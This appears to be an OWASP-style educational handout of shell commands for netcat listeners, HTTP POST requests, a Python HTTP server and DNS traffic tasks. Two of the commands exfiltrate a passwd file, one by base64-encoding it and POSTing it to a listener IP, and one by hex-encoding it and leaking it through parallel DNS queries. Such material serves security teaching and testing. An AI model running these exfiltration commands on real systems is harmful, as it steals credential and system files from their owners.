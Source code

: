  
# Owasp zere
# OWASP Educational Handout

### Network and Server Tasks

#### 1. Netcat (nc) for Listening and Sending Data
   - **Listen on a Port:**
     ```bash
     nc -l -p 8080
     ```
     This command listens on port `8080` for incoming connections.

   - **Send Data via POST Request:**
     ```bash
     cat passwd | base64 | curl -X POST http://192.168.110.160:8080 -d "$(cat)"
     ```
     - `cat passwd`: Reads the contents of the `passwd` file.
     - `base64`: Encodes the data in Base64.
     - `curl -X POST`: Sends a POST request with the encoded data.

   - **Send Simple Data via POST Request:**
     ```bash
     curl -X POST http://192.168.110.160:8080 -d "data=text"
     ```
     Sends a POST request with the data `data=text`.

   - **Start a Python HTTP Server:**
     ```bash
     python3 -m http.server 8080
     ```
     Starts a simple HTTP server on port `8080`.

---

#### 2. DNS Tasks

   - **Capture DNS Traffic:**
     ```bash
     sudo tcpdump -i eth0 port 53 -n
     ```
     Captures DNS traffic (UDP port 53) on the `eth0` interface.

   - **Edit DNS Configuration:**
     ```bash
     nano /etc/resolv.conf
     ```
     Opens the DNS configuration file for editing.

   - **Send DNS Queries in Parallel:**
     ```bash
     cat passwd | od -A n -t x8 | tr -d " " | xargs -P10 -I {} dig +time=1 +retry=0 {} > /dev/null 2>&1
     ```
     - `od -A n -t x8`: Converts the `passwd` file to 8-byte hexadecimal.
     - `tr -d " "`: Removes all spaces.
     - `xargs -P10`: Runs 10 parallel processes.
     - `dig +time=1 +retry=0 {}`: Sends DNS queries with a timeout of 1 second and no retries.
     - `> /dev/null 2>&1`: Suppresses output.

